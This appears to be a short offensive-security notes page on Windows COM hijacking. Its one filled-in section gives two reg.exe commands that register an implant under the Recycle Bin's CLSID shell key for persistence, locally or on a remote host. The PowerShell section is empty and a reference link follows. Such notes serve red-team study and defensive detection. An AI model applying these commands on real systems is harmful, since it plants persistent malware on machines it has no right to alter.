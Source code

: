 # COM Hijacking

TODO: Fill this info

## Recycle Bin

### Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\implant.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\implant.exe" /f
```

### PowerShell

```

```

---
## References

- [Persistence Info: Recycle Bin COM Extension Handler ](https://persistence-info.github.io/Data/recyclebin.html)